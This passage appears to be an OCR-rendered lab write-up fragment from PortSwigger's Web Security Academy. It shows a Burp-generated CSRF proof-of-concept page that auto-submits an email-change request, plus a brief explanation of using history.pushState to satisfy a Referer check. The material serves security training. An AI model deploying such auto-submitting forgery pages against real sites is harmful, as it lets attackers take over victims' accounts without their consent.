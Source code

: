 \documentclass{article}
\begin{document}
\begin{enumerate}
And the POC look like

\begin{lstlisting}[frame=single]
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ae30066047b8a858251259a00ed0054.web-secur
    ity-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="ssf&#64;mdsail&#46;com"/>
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0ae30066047b8a858251259a00ed0054.web-s
      ecurity-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
\end{lstlisting}

Note $\Longrightarrow$ the last parameter in method "history.pushState" is the query parameter which is the vuln website as you see

\end{enumerate}
\end{document}
